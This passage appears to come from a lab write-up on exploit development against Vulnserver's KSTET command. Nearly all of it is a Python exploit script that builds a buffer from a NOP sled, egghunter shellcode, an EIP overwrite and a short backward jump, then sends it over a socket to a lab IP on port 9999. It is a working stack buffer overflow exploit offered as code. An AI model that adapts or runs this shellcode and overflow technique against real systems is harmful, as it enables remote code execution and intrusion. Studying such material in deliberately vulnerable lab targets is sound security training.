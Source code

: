```python


nopsled = '\x90' * 4
egghunter = '\x31\xdb\x53\x53\x53\x53\xb3\xc0\x66\x81\xca\xff\x0f\x42\x52\x6a'
egghunter += '\x26\x58\x33\xc9\x8b\xd4\x64\xff\x13\x5e\x5a\x3c\x05\x74\xe9\xb8'
egghunter += '\x77\x30\x30\x74\x8b\xfa\xaf\x75\xe4\xaf\x75\xe1\xff\xe7'
pre_buf = 'A' * (70 - len(egghunter) - len(nopsled))
eip = '\xBB\x11\x50\x62'
jmp = '\x90\xEB\xB5' 
post_buf =  'C' * (26 - len(jmp))
buffer = nopsled + egghunter + pre_buf + eip + jmp + post_buf
command = 'KSTET '
data = command + buffer

print '[*] Sending data: ' + command + buffer.encode('hex')
s = socket.create_connection(('192.168.185.146',9999))
s.sendall(data)
s.close()
```

<img src="/assets/images/vulnserver/kstet/kstet-send-egg-and-breakpoints.png" alt="kstet-send-egg-and-breakpoints" width="700"/>
